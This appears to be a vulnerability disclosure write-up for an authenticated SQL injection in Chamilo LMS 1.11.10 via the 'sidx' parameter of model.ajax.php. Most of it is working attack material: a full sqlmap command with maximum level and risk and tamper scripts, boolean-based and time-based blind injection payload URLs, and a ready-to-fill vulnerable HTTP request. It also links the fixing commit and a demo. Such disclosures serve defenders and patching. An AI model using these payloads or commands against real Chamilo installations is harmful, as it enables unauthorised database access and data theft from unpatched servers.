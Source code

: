 ## Time based and boolean based SQLi via the sidx parameter



Authenticated: Yes

Version: Chamilo 1.11.10


The following command was used,
```python3 sqlmap.py -r chamilo --level 5 --risk 3 --tamper between,charencode --random-agent --dbms mysql -a```

The command used in the demo is used to shorten the video.


```
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: http://cham/main/inc/ajax/model.ajax.php?a=get_sessions&list_type=simple&filters[groupOp]=AND&_search=false&nd=1745121263681&rows=20&page=1&sidx=(SELECT (CASE WHEN (2271=2271) THEN '' ELSE (SELECT 3569 UNION SELECT 1030) END))&sord=asc
```

```
Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: http://cham/main/inc/ajax/model.ajax.php?a=get_sessions&list_type=simple&filters[groupOp]=AND&_search=false&nd=1745121263681&rows=20&page=1&sidx=(CASE WHEN (8157=8157) THEN SLEEP(5) ELSE 8157 END)&sord=asc
```

The vulnerable request:
```
GET /main/inc/ajax/model.ajax.php?a=get_sessions&list_type=simple&filters%5BgroupOp%5D=AND&_search=false&nd=1745121263681&rows=20&page=1&sidx=*&sord=asc HTTP/1.1
Host: <REPLACE ME>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://<REPLACE ME>/main/session/session_list.php
Cookie: <REPLACE ME>
```

Fixed:
https://github.com/chamilo/chamilo-lms/commit/58bbe957a416e56dd9e8d0c39fd7199a8f9aa615


demo:

![](https://github.com/4rdr/proofs/blob/main/gifs/chamilo-1.11.10.-authenticated-sqli-via-sidx.gif?)

